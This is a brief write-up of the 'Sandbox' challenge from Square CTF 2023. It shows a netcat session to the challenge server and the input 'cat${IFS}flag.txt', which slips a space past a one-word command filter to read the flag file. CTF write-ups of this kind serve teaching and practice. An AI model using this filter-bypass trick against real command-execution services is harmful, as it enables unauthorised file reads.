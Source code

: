 ```yaml
---
title: Sandbox
date: 2024-02-19T14:54:01+02:00
description: Writeup for Sandbox [Square CTF 2023]
author: H0N3YP0T
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I "made" "a" "python" "sandbox" """"
nc 184.72.87.9 8008

## Intuition

It seems the server blacklist the space character so I am not able to `cat flag.txt`.

## Solution

Escape the space character by using the following command:

```bash
┌──🮤 HON3YP0T🮥─🮤 192.168.0.234🮥─🮤直 192.168.0.17🮥
├──🮤  ~🮥
└─   nc 184.72.87.9 8008                                            [11:51PM ]
Hi! Welcome to the kidz corner sandbox! we made it super safe in here - you can execute whatever command you want, but only one word at a time so you can't do anything too dangerous, like steal our flags!
cat${IFS}flag.txt
flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}
```

### Flag

`flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}`

